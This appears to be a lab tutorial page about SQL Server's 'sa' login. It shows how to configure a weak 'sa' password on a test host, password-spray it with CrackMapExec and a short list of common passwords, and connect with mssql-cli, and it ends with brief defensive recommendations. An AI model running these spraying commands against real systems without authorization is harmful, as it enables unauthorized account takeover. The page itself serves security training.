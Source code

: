 ```yaml
---
description: >-
  By default the SA user is NOT enabled. Administrators might enable it during
  the installation and choose a weak password.
---
```


# SQL Server default login

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.

2\. Open "Microsoft SQL Server Management Studio"

![](<../../.gitbook/assets/image (32) (1) (1) (1) (1) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

4\. Expand the "Security" and "Logins" folders. Right click "sa" and select "Properties". Make sure "Enforce password policy" is unchecked and fill in the password `sa` twice.

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

## Attacking

### How it works

One of the default users (not enabled by default) for SQL Server is the SA user. Administrators might enable it during the installation and choose a weak password, such as the username.

### Tools

* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)

### Executing the attack

1. Check if the MSSQL server on `WEB01` can be contacted from our Kali machine:

```
crackmapexec mssql 10.0.0.5 -d .
```

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1).png>)

2\. Paste the following passwords in `passwords.txt` to spray with:

```
Password
Password01!
Password1!
Welcome01!
Welcome01
Welcome1!
Welcome1
sa
```

![](<../../.gitbook/assets/image (41) (1).png>)

3\. Run Crackmapexec to connect to the MSSQL service running on `WEB01` and passwordspray the passwords till there is a succesfull login:

```
crackmapexec mssql 10.0.0.5 -u sa -p passwords.txt --local-auth
```

![](<../../.gitbook/assets/image (39) (1) (1) (1) (1).png>)

We got a succesfull login as the `sa` user with the password `sa`.

4\. Run Crackmapexec again with the password sa and use the `-q` flag to try to execute the query `select @@version` to retrieve the MSSQL version.

```
crackmapexec mssql 10.0.0.5 -u sa -p sa --local-auth -q "select @@version;"
```

![](<../../.gitbook/assets/image (15) (1) (1) (1) (1).png>)

5\. Connect to the database using mssql-cli.

```
mssql-cli -S 10.0.0.5 -U sa -P sa
```

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../active-directory-attacks/sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../active-directory-attacks/sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Make sure the password policy is enforced for all users on the SQL server.
* Dont use the sa account, this account is well to known and attackers will attempt to brute-force it.

### Detection



## References

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15" %}
